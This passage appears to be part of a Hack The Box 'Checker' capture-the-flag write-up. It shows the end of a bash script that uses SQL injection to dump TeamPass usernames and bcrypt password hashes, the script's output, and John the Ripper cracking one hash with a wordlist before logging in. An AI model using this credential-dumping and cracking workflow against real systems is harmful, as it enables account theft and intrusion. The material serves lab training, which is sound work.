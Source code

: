 ```bash
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done
```

RUn the exploit

```jsx
┌──(kali㉿kali)-[~/CTF/HTB/Checker/]
└─$ ./exploit.sh http://checker.htb:8080/
There are 2 users in the system:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

Crack the password using `JohnTheRipper`

```jsx
┌──(kali㉿kali)-[~/CTF/HTB/Checker/]
└─$ john --format=bcrypt --wordlist=/home/kali/opt/rockyou.txt bob.hash
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cheerleader      (bob)
1g 0:00:00:05 100% 0.1845g/s 159.4p/s 159.4c/s 159.4C/s caitlin..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now use the creds to login as shown below.

<img src="Img/image2.jpg" alt="Error Image">
